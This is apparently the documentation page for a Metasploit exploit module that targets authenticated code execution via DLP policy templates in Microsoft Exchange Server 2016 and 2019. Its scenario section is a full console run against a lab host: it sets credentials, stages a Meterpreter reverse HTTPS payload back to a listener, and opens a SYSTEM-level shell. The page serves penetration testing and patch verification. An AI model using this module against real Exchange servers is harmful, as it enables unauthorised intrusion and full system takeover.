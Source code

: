 ## Vulnerable Application

### Description

This vulnerability allows remote attackers to execute arbitrary code
on affected installations of Exchange Server. Authentication is
required to exploit this vulnerability. Additionally, the target user
must have the `Data Loss Prevention` role assigned and an active
mailbox.

The specific flaw exists within the processing of the `New-DlpPolicy`
cmdlet. The issue results from the lack of proper validation of
user-supplied template data when creating a DLP policy. An attacker
can leverage this vulnerability to execute code in the context of
`SYSTEM`.

Tested against Exchange Server 2016 CU14 on Windows Server 2016.

### Setup

Set up a [vulnerable target](#targets).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

`Exchange Server 2016 and 2019 w/o KB4577352`

## Options

### USERNAME

Set this to the OWA username.

### PASSWORD

Set this to the OWA password.

## Scenarios

### Exchange Server 2016 CU14 on Windows Server 2016

```
msf6 > use exploit/windows/http/exchange_ecp_dlp_policy
[*] Using configured payload windows/x64/meterpreter/reverse_https
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > options

Module options (exploit/windows/http/exchange_ecp_dlp_policy):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    no        OWA password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   USERNAME                    no        OWA username
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The local listener hostname
   LPORT     8443             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Exchange Server 2016 and 2019 w/o KB4577352


msf6 exploit(windows/http/exchange_ecp_dlp_policy) > set rhosts 192.168.123.192
rhosts => 192.168.123.192
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > set username Administrator
username => Administrator
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > set password Passw0rd!
password => Passw0rd!
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > run

[*] Started HTTPS reverse handler on https://192.168.123.1:8443
[*] Executing automatic check (disable AutoCheck to override)
[!] The service is running, but could not be validated. OWA is running at https://192.168.123.192/owa/
[*] Logging in to OWA with creds Administrator:Passw0rd!
[+] Successfully logged in to OWA
[*] Retrieving ViewState from DLP policy creation page
[+] Successfully retrieved ViewState
[*] Creating custom DLP policy from malicious template
[*] DLP policy name: Abbotstone Agricultural Property Unit Trust Data
[*] Powershell command length: 2372
[*] https://192.168.123.1:8443 handling request from 192.168.123.192; (UUID: rwlz4ahe) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.123.1:8443 -> 192.168.123.192:6951) at 2020-09-16 02:39:17 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-365Q2VJJS17
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : GIBSON
Logged On Users : 8
Meterpreter     : x64/windows
meterpreter >
```

